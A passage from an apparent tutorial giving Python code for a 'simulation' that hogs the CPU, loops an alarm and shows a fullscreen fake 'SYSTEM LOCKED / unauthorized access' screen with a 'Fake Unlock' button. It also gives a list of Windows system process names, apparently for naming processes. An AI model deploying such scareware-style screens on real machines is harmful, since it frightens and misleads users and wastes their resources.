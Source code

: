 ```bash
        hashlib.sha256(name.encode()).hexdigest()

# === Alarm Sound ===
def play_alarm():
    try:
        if not os.path.exists(ALARM_FILE):
            log("Alarm file not found.")
            return
        winsound.PlaySound(ALARM_FILE, winsound.SND_FILENAME | winsound.SND_ASYNC | winsound.SND_LOOP)
        log("Alarm started.")
    except Exception as e:
        log(f"Alarm failed: {e}")

# === Fullscreen Locker ===
def show_screen_locker():
    play_alarm()
    root = tk.Tk()
    root.title("LOCKED")
    root.attributes("-fullscreen", True)
    root.configure(bg="black")

    tk.Label(root, text="🔒 SYSTEM LOCKED", fg="red", bg="black", font=("Arial", 36)).pack(pady=100)
    tk.Label(root, text="ALERT: Unauthorized access detected.\nThis machine is now locked.",
             fg="white", bg="black", font=("Arial", 16)).pack()
    tk.Button(root, text="Fake Unlock",
              command=lambda: (winsound.PlaySound(None, winsound.SND_PURGE), root.destroy()),
              font=("Arial", 14)).pack(pady=20)

    root.mainloop()

# === Main ===
def main():
    log("Simulation started.")
    for i in range(1):  # You can increase to 3–5 threads if desired
        threading.Thread(target=hog_cpu, args=(f"cpu_{i}",), daemon=True).start()
    time.sleep(0.5)
    log("Triggering lock screen...")
    show_screen_locker()
    while True:
        time.sleep(1)

if __name__ == "__main__":
    main()
```
### Create New Text file: process_name.txt
Paste this:
```bash
svchost
chrome
explorer
systemd
powershell
lsass
smss
pythonw
rundll32
conhost
```
### Create logs Folder
